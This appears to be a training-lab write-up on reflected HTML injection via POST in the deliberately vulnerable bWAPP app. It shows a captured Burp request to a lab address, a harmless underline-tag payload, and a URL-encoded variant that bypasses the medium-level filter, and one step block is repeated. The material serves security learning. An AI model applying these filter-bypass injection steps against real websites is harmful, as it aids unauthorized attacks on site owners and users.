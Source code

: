 #  HTML Injection - Reflected (POST) (MEDIUM)


#### **Process:**
```plaintext 
-----------------------------------------
1. At first check the input boxes that how its 
reflect 

2. If its reflecting and also giving an url endpoint its probably a reflected GET Html injection vulnerability

3. If its not reflecting the url endpoint then its sure that we have to use 
burp proxy for the endpoints

```
#### **Payload: 1**
```html
<u>Hello</u>

```

#### **Burp Proxy**  

```plaintext

POST /bWAPP/htmli_post.php HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://192.168.56.101
Connection: keep-alive
Referer: http://192.168.56.101/bWAPP/htmli_post.php
Cookie: PHPSESSID=072b29678df3bc882e8b672204474edc; security_level=0
Upgrade-Insecure-Requests: 1
Priority: u=1

firstname=<u>hello</u>&lastname=world&form=submit
```
#### **Process:**
```plaintext 
-----------------------------------------
4. For the Payload:1 is giving us &lt;u&gt;hello&lt;/u&gt; in return 

5. It means the backend is validating <,>and/ 
6. So here we will use the URL encoder to bypass thae validation

```


#### **Process:**
```plaintext 
-----------------------------------------
4. For the Payload:1 is giving us &lt;u&gt;hello&lt;/u&gt; in return 

5. It means the backend is validating <,>and/ 
6. So here we will use the URL encoder to bypass thae validation

```
#### Encoded


![alt text](image-1.png)

#### **Payload: 2**
```plaintext
%3c%75%3e%68%65%6c%6c%6f%3c%2f%75%3e
```

![alt text](image-2.png)
